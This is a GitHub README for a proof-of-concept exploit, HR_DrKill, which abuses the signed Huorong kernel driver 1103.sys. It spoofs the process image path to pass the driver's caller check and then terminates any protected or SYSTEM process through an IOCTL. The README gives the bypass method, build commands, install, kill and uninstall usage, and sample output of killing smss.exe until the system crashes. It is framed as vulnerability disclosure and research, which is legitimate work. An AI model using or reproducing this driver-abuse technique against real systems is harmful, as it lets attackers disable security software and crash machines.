

# HuorongDrvVulnPoc_PhantomRay

Proof of Concept demonstrating arbitrary process termination via the signed Huorong kernel driver (`1103.sys`, device `\\.\HRKill::SysUtils`).

By spoofing `PEB->ProcessParameters->ImagePathName` to point to `ABCD.tmp` in the working directory, a local attacker can bypass the driver's caller verification check, obtain a `PROCESS_ALL_ACCESS` handle to any protected or `SYSTEM` process via `IOCTL 0x22800C`, and terminate it.



## Build

* **Visual Studio**: Open `HR_DrKill.sln` in Visual Studio 2019 (or later), select the **`Release | x64`** configuration, and build the solution. The compiled binary `HR_DrKill.exe` along with `1103.sys` and `ABCD.tmp` will be output to the `deploy\` directory automatically.
* **Command Line (MSVC x64 Native Tools Command Prompt)**:
  ```text
  msbuild HR_DrKill.sln /p:Configuration=Release /p:Platform=x64
  ```

## Usage

Ensure `HR_DrKill.exe`, `1103.sys`, and `ABCD.tmp` are in the same directory, then run from an elevated (`Administrator`) Command Prompt:

```text
HR_DrKill.exe --install          Install and start the driver service
HR_DrKill.exe --kill <pid>       Terminate target process via driver
HR_DrKill.exe --uninstall        Stop and remove the driver service
```

### Example Output (Terminating `smss.exe`)

```text
C:\Users\AdminUser\Desktop\Folder> HR_DrKill.exe --install
[+] Service created successfully
[+] Driver started successfully
[+] Install complete -- device \\.\HRKill::SysUtils should be available

C:\Users\AdminUser\Desktop\Folder> HR_DrKill.exe --kill 476
[*] oldpath C:\Users\AdminUser\Desktop\Folder\HR_DrKill.exe
[*] newpath C:\Users\AdminUser\Desktop\Folder\ABCD.tmp
[+] OpenDevice HRKill::SysUtils success
[+] OpenProcess pid:476 success
[+] Process 476 terminated
```

Terminating `smss.exe` (`PID 476`) succeeds immediately and triggers a system bugcheck (`Stop code: CRITICAL_PROCESS_DIED (0xEF)`).

## Disclaimer

This Proof of Concept is provided strictly for educational, vulnerability research, and security disclosure purposes. Do not use this code on any system without explicit authorization.
